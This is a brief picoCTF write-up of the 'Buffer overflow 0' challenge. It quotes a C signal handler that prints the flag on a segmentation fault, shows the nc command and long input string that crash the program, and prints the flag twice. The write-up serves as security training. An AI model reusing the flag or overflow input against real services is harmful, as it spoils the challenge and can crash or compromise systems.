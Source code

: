 # 1. Buffer overflow 0
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:
by going through the code i got to know that if we get a segmentation fault we will get the flag 

```java
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
simply stacked the terminal and got the flag
```bash
nc saturn.picoctf.net 61792
Input: 111111111111111111111111111111111111111111111111111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- reading a code and interpretting it


